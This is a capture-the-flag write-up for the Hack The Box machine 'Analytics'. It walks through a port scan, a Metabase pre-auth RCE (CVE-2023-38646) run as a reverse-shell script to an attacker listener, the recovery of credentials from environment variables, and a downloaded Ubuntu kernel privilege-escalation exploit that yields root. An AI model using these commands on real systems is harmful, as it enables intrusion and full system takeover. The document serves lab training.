



# HTB - Analytics

#### Ip: 10.10.11.233
#### Name: Analytics
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.233 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-08 11:46 CST
Nmap scan report for 10.10.11.233
Host is up (0.082s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.83 seconds
```

Lets add analytical.htb to `/etc/hosts`

Checking out the site on port 80 we find a largely static page:


Interestingly though, the login page redirects to data.analytical.htb, so lets also add that to `/etc/hosts`

Navigating to this page presents me with a login to metabase:


Searching for exploits I find: https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646 which details vulnerabilities we can chain together to achieve RCE on the target.

First, we can navigate to http://data.analytical.htb/api/session/properties to obtain the setup-token we'll need:



Next, I searched for public exploits for the vulnerability and found: https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-Reverse-Shell.py

I can run the script with will fetch the setup-token, and spawn a reverse shell in my nc listener:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ python CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/api/session/properties --lhost 10.10.14.16 --lport 443
```

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.233] 40070
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
9431f8dc1d11:/$ whoami
whoami
metabase
```
Not seeing much on the target, I run linpeas and discover I've landed in a Docker container:

```
╔══════════╣ Container details
═╣ Is this a container? ........... docker
```

Knowing this lets run the `env` command to see if we can extract more information:

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Nice, here is a new user and their password. lets use these to SSH in as metalytics:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ ssh metalytics@10.10.11.233
```

From here I can grab the user.txt flag:



### Privilege Escalation

Looking around and not seeing much, I went back to the basics and ran `uname -a` to check out the kernel version:

```
metalytics@analytics:/tmp$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for exploits I find: https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629


I can copy the exploit to the target and run it:
```
metalytics@analytics:/tmp$ wget 10.10.14.16/ubuntu_6.2.0_exploit.sh
--2024-03-08 18:59:42--  http://10.10.14.16/ubuntu_6.2.0_exploit.sh
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: ‘ubuntu_6.2.0_exploit.sh’

ubuntu_6.2.0_exploit.sh         100%[====================================================>]     558  --.-KB/s    in 0.005s  

2024-03-08 18:59:42 (117 KB/s) - ‘ubuntu_6.2.0_exploit.sh’ saved [558/558]

metalytics@analytics:/tmp$ chmod +x ubuntu_6.2.0_exploit.sh 
metalytics@analytics:/tmp$ ./ubuntu_6.2.0_exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# whoami
root
```

I can then grab the final flag:



Thanks for following along!

-Ryan

-----------------------------------------------
